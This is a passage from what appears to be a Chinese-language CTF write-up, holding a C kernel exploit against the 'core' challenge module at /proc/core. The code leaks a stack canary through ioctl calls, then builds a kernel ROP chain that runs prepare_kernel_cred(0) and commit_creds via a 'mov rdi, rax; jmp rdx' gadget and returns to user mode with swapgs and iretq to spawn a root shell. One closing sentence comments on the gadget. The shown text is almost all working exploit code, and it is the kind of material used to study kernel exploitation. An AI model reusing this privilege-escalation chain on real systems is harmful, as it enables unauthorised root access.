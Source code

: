 ```c
    // void (*b)(void*) = commit_creds_addr;
    // (*b)((*a)(0));
// }

int main() {

    save_status();
    get_func_addrs();

    size_t pop_rdi_ret, pop_rsi_ret, pop_rdx_ret;
    pop_rdi_ret = kaslr_offset + 0xffffffff81000b2f;
    pop_rsi_ret = kaslr_offset + 0xffffffff810011d6;
    pop_rdx_ret = kaslr_offset + 0xffffffff810a0f49;
    size_t swapgs_popfq_ret = kaslr_offset + 0xffffffff81a012da;
    size_t iretq_ret = kaslr_offset + 0xffffffff81050ac2;

    size_t mov_rdirax_jmp_rdx = kaslr_offset + 0xffffffff8106a6d2;

    int fd = open("/proc/core", 2);
    size_t buf[0x800];
    ioctl(fd, 0x6677889C, 0x40);
    ioctl(fd, 0x6677889B, buf);
    size_t canary = buf[0];
    lg(canary);

    int i = 0x40/8;
    buf[i++] = canary;
    buf[i++] = 0xdeadbeef;
    // buf[i++] = (size_t)get_root;
    buf[i++] = pop_rdi_ret;
    buf[i++] = 0;
    buf[i++] = prepare_kernel_cred_addr;
    buf[i++] = pop_rdx_ret;
    buf[i++] = commit_creds_addr;
    buf[i++] = mov_rdirax_jmp_rdx;

    buf[i++] = swapgs_popfq_ret;
    buf[i++] = 0;
    buf[i++] = iretq_ret;
    buf[i++] = (size_t)get_shell;
    buf[i++] = user_cs;
    buf[i++] = user_rflags;
    buf[i++] = user_sp;
    buf[i++] = user_ss;

    write(fd, buf, 0x800);
    ioctl(fd, 0x6677889A, 0xffffffffffff0000|0x100);

    return 0;
}
```

>   主要区别在于 ROP 链的布置，可以注意到 `mov rdi, rax; jmp rdx;` 的 `magic_gadgets` 的使用。

---
